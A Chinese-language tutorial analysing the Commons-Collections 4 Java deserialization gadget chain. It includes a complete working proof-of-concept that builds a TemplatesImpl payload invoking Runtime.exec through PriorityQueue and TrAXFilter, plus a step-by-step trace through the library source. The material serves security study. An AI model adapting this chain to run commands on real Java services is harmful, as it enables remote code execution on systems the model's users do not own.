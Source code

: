 # 环境搭建

- JDK 1.7
- commons-collections 4.0
- javassist

和CC2的环境一样

```
<dependencies>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-collections4</artifactId>
        <version>4.0</version>
    </dependency>
    <dependency>
        <groupId>org.javassist</groupId>
        <artifactId>javassist</artifactId>
        <version>3.25.0-GA</version>
    </dependency>
</dependencies>
```

# 前置知识

CC4是CC2和CC3的结合,准确的来说,CC4可以说是CC2的改编,两者唯一不同的点就是调用newTransformer方法,CC2是用反射调用的,CC4是和CC3一样用TrAXFilter来调用的

利用链

```
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                PriorityQueue.siftDownUsingComparator()
                    TransformingComparator.compare()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InstantiateTransformer.transform()
                            newInstance()
                                TrAXFilter#TrAXFilter()
                                TemplatesImpl.newTransformer()
                                         TemplatesImpl.getTransletInstance()
                                         TemplatesImpl.defineTransletClasses
                                         newInstance()
                                            Runtime.exec()
```

# 利用链分析

poc如下

```
package CC4;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;


public class CC4Payload {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] classbytes = STU.toBytecode();
        byte[][] targetbytecodes = new byte[][]{classbytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFiledVlue(templates,"_name","DawnT0wn");
        setFiledVlue(templates,"_class",null);
        setFiledVlue(templates,"_bytecodes",targetbytecodes);

        Transformer[] transforms = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
        };

        ChainedTransformer chain = new ChainedTransformer(transforms);

        TransformingComparator comparator = new TransformingComparator(chain);
        PriorityQueue queue = new PriorityQueue(1);

        Object queue_array = new Object[]{1,2}; //这里因为调用了ConstantTransformer,所以调用ChainTransfomer的时候可以随便传参数不用像CC2那样传templates

        setFiledVlue(queue,"queue",queue_array);

        setFiledVlue(queue,"size",2);

        setFiledVlue(queue,"comparator",comparator);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC4.bin"));
        os.writeObject(queue);

        ObjectInputStream fos =new ObjectInputStream(new FileInputStream("CC4.bin"));
        fos.readObject();
    }

    public static void setFiledVlue(Object obj,String Filename,Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(Filename);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```

这条链和CC2大致相同,分析了CC2和CC3这条链就没有什么问题了

首先调用PriorityQueue重写的readObject方法

```
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
```

跟进heapify

```
private void heapify() {
    for (int i = (size >>> 1) - 1; i >= 0; i--)
        siftDown(i, (E) queue[i]);
}
```

和CC2一样,size需要大于等于2,可以利用add方法,可以利用反射

跟进siftDown

```
private void siftDown(int k, E x) {
    if (comparator != null)
        siftDownUsingComparator(k, x);
    else
        siftDownComparable(k, x);
}
```

comparator不为空的话进入siftDownUsingComparator,继续跟进

![image-20220121192128125](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220121192128125.png)

一直执行到第二个if,这里comparator的值可以通过反射控制,因为分析过CC2,就知道这里可以去调用TransformingComparator的compare方法,从而去触发transform方法

![image-20220121192332035](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220121192332035.png)

到此为止,和CC2的前半截是一样的,唯一不同的是,在CC2中因为要直接调用InvokerTransformer利用反射去触发newTransform方法,所以需要控制参数obj1,然而在这里,是利用熟悉的ChainTransform类的transform挨个去调用ConstantTransformer和InstantiateTransformer的transform方法,ConstantTransformer的transform方法与传入的参数无关，所以这里的obj1可以为任意值

跟进transform方法,

这里就一直调用,ConstantTransformer的transform已经很熟悉了,直接返回一个可控值,主要还是InstantiateTransformer的transform方法,这里其实就是CC3的内容了

![image-20220121192851171](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220121192851171.png)

可以看到和CC3一样通过反射去获取一个构造器,在CC3中我们已经找到了这样一个可用的类TrAXFilter,在

commons-collections 4.0仍然是可用的,通过构造器,iParamTypes和iArgs参数都是可控的

跟进TrAXFilter类构造器

![image-20220121193231105](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220121193231105.png)

又回到了熟悉的调用newTransformer方法,传入的templates参数就是iArgs参数,是TemplatesImpl对象

跟进newTransformer方法

![image-20220121194543034](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220121194543034.png)

跟进getTransletInstance方法

![image-20220121194603942](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220121194603942.png)

接下来的东西就是加载字节码了,在CC2和CC3中已经提到了,都是一样的,

# 漏洞复现

![image-20220121194717498](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220121194717498.png)

命令执行成功